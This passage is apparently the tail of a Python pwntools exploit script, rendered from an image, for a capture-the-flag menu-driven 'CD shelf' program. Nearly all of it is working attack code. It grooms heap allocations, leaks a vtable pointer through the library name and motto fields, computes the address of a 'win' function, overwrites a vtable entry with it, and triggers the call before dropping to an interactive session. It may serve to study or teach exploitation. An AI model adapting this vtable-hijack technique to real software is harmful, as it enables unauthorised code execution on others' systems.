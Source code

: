 ```python
	p.sendlineafter(b"option: ", b"3")
	p.sendlineafter(b"remove", b"1")
	
	# Now we will create our first CD shelf.
	# We hope that the vtable allocation will fail, but the CD shelf allocation will not. (p = 0.367 * (1 - 0.367) ≈ 0.232)
	# This *should* cause the vtable to be allocated 1 byte before chunk 0.
	p.sendlineafter(b"option: ", b"5")
	p.sendlineafter(b"choice: ", b"4")
	p.sendlineafter(b"option: ", b"1")
	
	# Now we attempt to leak a vtable pointer from the CD vtable.
	# We will do this by editing the library name and motto.
	p.sendlineafter(b"option: ", b"5")
	while True:
		p.sendlineafter(b"choice: ", b"1")
		p.recvlines(2)
		if p.recv(1) == b"[":
			p.sendlineafter(b"characters): ", b"C")
			p.sendlineafter(b"characters): ", b"D")
			break
	p.recvline()
	p.recvline()
	r = p.recvline()
	print(r)
	remove_cd_row = u64(r.split(b": C")[1][:6][::-1] + b"\x00\x00")
	print(hex(remove_cd_row))
	if "1f8" not in hex(remove_cd_row):
		print("pointer leak failed")
		exit()
	
	# Now we overwrite a vtable pointer from the CD vtable.
	win = remove_cd_row + (0x8054 - 0x61f8)
	while True:
		p.sendlineafter(b"choice: ", b"1")
		p.recvlines(2)
		if p.recv(1) == b"[":
			p.sendlineafter(b"characters): ", b"A"*7 + p64(win)[::-1]) # Should overwrite add_cd
			p.sendlineafter(b"characters): ", b"D")
			break
	
	# Call the overwritten vtable entry.
	p.sendlineafter(b"choice: ", b"4")
	p.sendlineafter(b"option: ", b"2")
	p.sendlineafter(b"edit:", b"1")
	p.sendlineafter(b"option: ", b"3")
	
	p.interactive()


if __name__ == "__main__":
	main()
```
